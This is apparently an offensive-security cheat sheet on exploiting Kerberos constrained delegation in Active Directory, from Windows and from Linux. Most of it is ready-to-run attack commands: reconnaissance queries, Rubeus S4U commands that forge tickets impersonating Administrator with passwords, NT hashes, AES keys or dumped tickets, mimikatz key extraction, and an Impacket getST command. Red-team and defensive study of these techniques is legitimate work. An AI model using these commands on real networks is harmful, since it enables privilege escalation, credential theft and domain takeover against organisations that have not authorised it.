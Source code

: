 # Kerberos Delegation - Constrained Delegation

> Kerberos Constrained Delegation (KCD) is a security feature in Microsoft's Active Directory (AD) that allows a service to impersonate a user or another service in order to access resources on behalf of that user or service.

## From Windows

### Identify a Constrained Delegation

* **Bloodhound**  
  BloodHound: `MATCH p = (a)-[:AllowedToDelegate]->(c:Computer) RETURN p`

* **PowerView**  
  ```powershell
  Get-NetComputer -TrustedToAuth | select samaccountname,msds-allowedtodelegateto | ft
  ```

* **Native Powershell**  
  ```powershell
  Get-DomainComputer -TrustedToAuth | select -exp dnshostname
  Get-DomainComputer previous_result | select -exp msds-AllowedToDelegateTo
  ```

### Exploit the Constrained Delegation

* **Rubeus**  
  ```powershell
  # With a password
  Rubeus.exe s4u /nowrap /msdsspn:<time/target.local> /altservice:cifs /impersonateuser:"administrator" /domain:<domain> /user:<user> /password:<password>

  # with a NT Hash
  Rubeus.exe s4u /user:user_for_delegation /rc4:user_pwd_hash /impersonateuser:user_to_impersonate /domain:domain.com /dc:dc01.domain.com /msdsspn:time/srv01.domain.c    om /altservice:cifs /ptt
  #Example
  Rubeus.exe s4u /user:MACHINE$ /rc4:MACHINE_PWD_HASH /impersonateuser:Administrator /msdsspn:"cifs/dc.domain.com" /altservice:cifs,http,host,rpcss,wsman,ldap /ptt
  ```
* **Rubeus: use an existing ticket to perform a S4U2 attack to impersonate the "Administrator"**  
  ```powershell
  # Dump ticket
  Rubeus.exe tgtdeleg /nowrap
  Rubeus.exe triage
  Rubeus.exe dump /luid:0x12d1f7

  # Create a ticket
  Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/srv.domain.local /ticket:doIFRjCCBUKgAwIBB...BTA== /ptt
  ```
* **Rubeus : Using AES256 keys**  
  ```powershell
  # Get aes256 keys of the machine account using mimikatz
  privilege::debug
  token::elevate
  sekurlsa::ekeys

  # Create a ticket
  Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:cifs/srv.domain.local /user:win10x64$ /aes256:4b55f...fd82 /ptt
  ```

### Impersonate a domain user on a resource
> Requires SYSTEM level privileges on a machine configured with constrained delegations

* **Powershell**  
  ```powershell
  [Reflection.Assembly]::LoadWithPartialName('System.IdentityModel') | out-null
  $idToImpersonate = New-Object System.Security.Principal.WindowsIdentity @('administrator')
  $idToImpersonate.Impersonate()
  [System.Security.Principal.WindowsIdentity]::GetCurrent() | select name
  ls \\dc01.offense.local\c$
  ```
## From Linux

### Identify a Constrained Delegation

* **bloodyAD:**  

  ```bash
  bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get search --filter '(&(objectCategory=Computer)(userAccountControl:1.2.840.113556.1.4.803:=16777216))' --attr sAMAccountName,msds-allowedtodelegateto
  ```

### Exploit the Constrained Delegation

* **Impacket**  

  ```bash
  Impacket-getST -spn HOST/SQL01.DOMAIN 'DOMAIN/user:password' -impersonate Administrator -dc-ip 10.10.10.10
  ```

